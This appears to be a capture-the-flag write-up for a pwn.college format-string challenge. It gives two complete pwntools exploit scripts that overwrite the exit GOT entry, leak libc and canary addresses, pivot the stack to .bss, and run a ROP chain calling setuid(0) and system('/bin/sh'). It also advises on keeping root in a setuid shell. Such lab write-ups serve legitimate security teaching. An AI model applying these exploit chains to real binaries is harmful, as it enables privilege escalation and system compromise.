





Format String Attack - Format String Attack Once (Partial RELRO + no PIE)
This time there is no win function. So the challenge expect us to redirect code execution somewhere else.
My opinion, this is where fun starts.
babyfmt_level10.0
This challenge has Partial RELRO + no PIE protections. GOT entries lies in writable memory map and addresses are constant.
This variant the format string attack can be executed only once by the binary. Is it ?
root@a9b395169132:/host# checksec babyfmt_level10.0
[*] '/host/babyfmt_level10.0'
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x400000)
SHSTK: Enabled
IBT: Enabled
Stripped: No
As shown below, printf called and than calling exit. Same as previous one.

There are several ways to abuse this one. But for simplicity the execution will be looped. If exit got entry written with func address, the program never exit and that means infinite format string attack.
find offset and padlen values
[+] Receiving all data: Done (174B)
[DEBUG] Received 0xae bytes:
b'Here is the result:\n'
b'Your input is: \n'
b'aaaabaaacaaadaaaeaaaSTART0x6161616361616162END'
[*] Process '/host/babyfmt_level10.0' stopped with exit code 0 (pid 279)
[*] Found format string offset: 46
[+] User input starts at : 46
[+] Needed pads :4
[+] Numbwritten :0
Write exit got entry -> func address
The offset, padlen and numbwritten values detected as previous [[08 - Format String Attack - Redirect Code Execution to win (Full Relro+PIE Enabled)#^numbwritten-calculation|numbwritten calculation]].

Leak LIBC Address (write+23)
Same as previous one, the 3rd offset is the write+23 address. This for the readers practicing other potential targets, i decided to leak also canary value.

Finding suitable writable memory map (bss)
At this point everything is ready, the only needing is finding writable memory map and fill there. Generally chosen .bss segment.
root@a9b395169132:/host# readelf -S babyfmt_level10.0|grep -A3 -B3 '.bss'
0000000000000070 0000000000000008 WA 0 0 8
[25] .data PROGBITS 0000000000404070 00003070
0000000000000010 0000000000000000 WA 0 0 8
[26] .bss NOBITS 0000000000404080 00003080
0000000000000068 0000000000000000 WA 0 0 32
[27] .comment PROGBITS 0000000000000000 00003080
000000000000002b 0000000000000001 MS 0 0 1
The .bss segment starts at 0x404080. One important thing to note: since the binary repeatedly calls functions like printf, read, puts, and memset through func, overwriting the stdin, stdout, or stderr pointers in the .bss section can cause unintended crashes or behavior.
pwndbg> tele 0x404080 32
00:0000│ 0x404080 (stdout@@GLIBC_2.2.5) —▸ 0x7f0b57b6d6a0 (_IO_2_1_stdout_) ◂— 0xfbad2887
01:0008│ 0x404088 ◂— 0
02:0010│ 0x404090 (stdin@@GLIBC_2.2.5) —▸ 0x7f0b57b6c980 (_IO_2_1_stdin_) ◂— 0xfbad208b
03:0018│ 0x404098 ◂— 0
04:0020│ 0x4040a0 (stderr@@GLIBC_2.2.5) —▸ 0x7f0b57b6d5c0 (_IO_2_1_stderr_) ◂— 0xfbad2087
I chose as target address exe.bss()+0x680 = 0x404700.
Controlling RIP Register
Preparations mostly done. Now its decided how to get control of RIP into controlled area. To achieve that, decided to overwrite printf's return value in the stack.
Why this technique ?
The reason, stack values are known. This means there are several simple ways to get the job done. 1. The gadgets can be written into controlled area via format string abuse 2. The gadgets can be written into stack via read and than jump into that stack area.
If stack addresses weren’t known, we’d pivot to non-stack control points instead. A ret2dlresolve chain is often the next step: by crafting fake relocation, symbol, and string table entries in a writable region, then invoking the PLT resolver, you can resolve arbitrary functions at runtime even if they weren’t originally imported.
After leaking libc’s base address, late-exit hooks such as __exit_funcs, atexit, or tls_dtor_list may become viable targets, since they hold function pointers executed at program shutdown and can still reside in writable libc data segments on some builds.
Beyond direct function-pointer overwrites, FSOP (File Structure Oriented Programming) can be used on older or un-hardened libcs: by forging _IO_FILE structures and manipulating the _IO_list_all or vtables, attackers can redirect control flow when standard I/O cleanup routines run.
And when ROP gadgets are limited or awkward to use, techniques like ret2csu or compiler-inserted constructor/destructor stubs in __libc_csu_init can help bootstrap controlled function calls or info-leaks by setting up multiple registers at once. Other modern pivots include abusing GOT entries under Partial RELRO, manipulating dynamic linker hooks (_dl_fini, _rtld_global structures), or crafting SROP chains to directly control the CPU context via sigreturn.
The shared PoC script, overwriting printf return address in the stack and +8 bytes.
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--libc=./libc.so.6' ./babyfmt_level10.0
from pwn import *
# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './babyfmt_level10.0')
# Many built-in settings can be controlled on the command-line and show up
# in "args". For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
libc = exe.libc
else:
library_path = libcdb.download_libraries('./libc.so.6')
if library_path:
exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
libc = exe.libc
else:
libc = ELF('./libc.so.6')
def start(argv=[], *a, **kw):
'''Start the exploit against the target.'''
if args.GDB:
return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
else:
return process([exe.path] + argv, *a, **kw)
# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *func+444
continue
c
c
si
nextret
'''.format(**locals())
#===========================================================
# EXPLOIT GOES HERE
#===========================================================
# Arch: amd64-64-little
# RELRO: Partial RELRO
# Stack: No canary found
# NX: NX enabled
# PIE: No PIE (0x400000)
# SHSTK: Enabled
# IBT: Enabled
# Stripped: No
def send_fmt(payload):
io.sendafter(b'printf on your input and then exit.\n', payload)
io = start()
####################################
####### Redirect exit to func ######
####################################
f = FmtStr(send_fmt, offset=46, padlen=4, numbwritten=0x6c)
f.write(exe.got['exit'], exe.sym.func)
f.execute_writes()
####################################
#### Leak Part #####################
####################################
payload = flat('%3$p|%161$p|%164$p|')
send_fmt(payload)
io.recvuntil(b'Your input is:')
io.recvline()
leaks = io.recvline().split(b'|')
leak_write23= int(leaks[0], 16)
leak_canary = int(leaks[1], 16)
rbp_addr = int(leaks[2], 16)-0xa00
libc.address = leak_write23 - 0x10e297 # offset of write+23
success(f'LIBC Base Address: {libc.address:#x}')
success(f'Canary Value : {leak_canary:#x}')
success(f'RBP Address : {rbp_addr:#x}')
####################################
#### Write Part ####################
####################################
target_address = exe.bss()+0x680
success(f'Target address: {target_address:#x}')
###### rop chain generation ########
binsh = next(libc.search(b'/bin/sh\0'))
rop = ROP([exe, libc])
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsp = rop.find_gadget(['pop rsp', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]
f.write(rbp_addr-0x4f8, pop_rsp) # ---> printf return address
f.write(rbp_addr-0x4f0, target_address) # ---> printf return address+8
f.write(target_address, 0xdeadbabe)
f.execute_writes()
io.interactive()
How the calculation works explained below.
After executing previous script, the return address of printf points to pop rsp; ret gadget. The distance between printf's return address and rbp address is : rbp_address-0x4f8: return address of printf.

Continue to execution will cause segmentation of on RIP=0xdeadbabe.
pwndbg> c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0x00000000deadbabe in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────
RAX 0x2aa
RBX 0x2020202020202020 (' ')
RCX 0
RDX 0
RDI 0x7f844a7597e0 (_IO_stdfile_1_lock) ◂— 0
RSI 0x7fffdd316ab0 ◂— 0x706e692072756f59 ('Your inp')
R8 0x2aa
R9 0x2aa
R10 0xa084ab0 ◂— 0x4a758723
R11 0x246
R12 0x401190 (_start) ◂— endbr64
R13 0x7fffdd31a180 ◂— 1
R14 0
R15 0
RBP 0x7fffdd319640 —▸ 0x7fffdd319b40 —▸ 0x7fffdd31a040 —▸ 0x7fffdd31a090 ◂— 0
*RSP 0x404708 ◂— 0
*RIP 0xdeadbabe
─────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────
Invalid address 0xdeadbabe
get_flag.py
After taking control of RIP, rest is generating ROP Chain and wait for shell.
Note for reader:
In the pwn.college setup the challenge binary is setuid-root. If you spawn a shell directly (e.g., via
system("/bin/sh")), most shells detect they were invoked from a setuid context and drop privileges to your real UID for safety.To retain privileges, first make the real/effective/saved UIDs all zero (e.g., call
setuid(0)orsetresuid(0,0,0)) beforeexecve-ing a shell; alternatively, exec a shell in privileged mode (e.g.,bash -p) so it doesn’t discard the elevated EUID. Otherwise, your “root shell” will immediately lose root.
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--libc=./libc.so.6' ./babyfmt_level10.0
from pwn import *
# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './babyfmt_level10.0')
# Many built-in settings can be controlled on the command-line and show up
# in "args". For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
libc = exe.libc
else:
library_path = libcdb.download_libraries('./libc.so.6')
if library_path:
exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
libc = exe.libc
else:
libc = ELF('./libc.so.6')
def start(argv=[], *a, **kw):
'''Start the exploit against the target.'''
if args.GDB:
return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
else:
return process([exe.path] + argv, *a, **kw)
# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *func+444
continue
c
c
si
nextret
'''.format(**locals())
#===========================================================
# EXPLOIT GOES HERE
#===========================================================
# Arch: amd64-64-little
# RELRO: Partial RELRO
# Stack: No canary found
# NX: NX enabled
# PIE: No PIE (0x400000)
# SHSTK: Enabled
# IBT: Enabled
# Stripped: No
def send_fmt(payload):
io.sendafter(b'printf on your input and then exit.\n', payload)
io = start()
####################################
####### Redirect exit to func ######
####################################
f = FmtStr(send_fmt, offset=46, padlen=4, numbwritten=0x6c)
f.write(exe.got['exit'], exe.sym.func)
f.execute_writes()
####################################
#### Leak Part #####################
####################################
payload = flat('%3$p|%161$p|%164$p|')
send_fmt(payload)
io.recvuntil(b'Your input is:')
io.recvline()
leaks = io.recvline().split(b'|')
leak_write23= int(leaks[0], 16)
leak_canary = int(leaks[1], 16)
rbp_addr = int(leaks[2], 16)-0xa00
libc.address = leak_write23 - 0x10e297 # offset of write+23
success(f'LIBC Base Address: {libc.address:#x}')
success(f'Canary Value : {leak_canary:#x}')
success(f'RBP Address : {rbp_addr:#x}')
success(f'Exe Base Address : {exe.address:#x}')
####################################
#### Write Part ####################
####################################
target_address = exe.bss()+0x680
success(f'Target address: {target_address:#x}')
###### rop chain generation ########
rop = ROP([exe, libc])
binsh = next(libc.search(b'/bin/sh\0'))
ret = rop.find_gadget(['ret'])[0]
rop.call('setuid', [0])
rop.raw(ret)
rop.call(libc.sym.system, [binsh])
#############################################
#### write ropchain into .bss segment #######
#############################################
for idx, c in enumerate(rop.build()):
f.write(target_address+(8*idx), c)
######## redirect code execution ##################
pop_rsp = rop.find_gadget(['pop rsp', 'ret'])[0]
f.write(rbp_addr-0x4f8, pop_rsp) # ---> printf return address
f.write(rbp_addr-0x4f0, target_address) # ---> printf return address+8
#f.write(target_address, 0xdeadbabe)
f.execute_writes()
io.interactive()
The Result:

References
Red Hat blog explaining RELRO modes, GOT/PLT relocation, and memory protections
RELRO (Partial vs Full) and GOT overwrites
Basics of overwriting GOT entries to redirect control flow
GOT/PLT primer for pwning
Detailed GOT/PLT behavior for exploitation
All about the GOT (ELF internals)
Using fake relocation tables to call arbitrary functions via the dynamic linker
ret2dlresolve technique overview
How to hijack exit handlers for code execution
Abusing exit handlers
Exploiting libc exit functions and destructors
Notes on __exit_funcs / tls_dtor_list
Forging _IO_FILE structures for exploitation (File Structure Oriented Programming)
FSOP context on modern glibc
Explanation of the endbr64 instruction for Intel CET IBT
What endbr64 does (IBT)
Presentation on CET, IBT, and SHSTK on Linux
CET slide deck (Linux Plumbers)
Building ROP chains with pwntools, including ret2csu support
Pwntools ROP API docs
Sigreturn Oriented Programming with pwntools
Pwntools SROP helper docs
Official AMD64 System V ABI documentation
SysV AMD64 ABI doc (Linux)
Practical summary of SysV calling conventions
Calling conventions summary (OSDev)
Bash documentation on privilege dropping for setuid programs
Shells drop privileges when started setuid
Dash man page note on setuid privilege behavior
Dash shell drops setuid privileges
MITRE ATT&CK technique for exploiting setuid binaries
MITRE ATT&CK on setuid abuse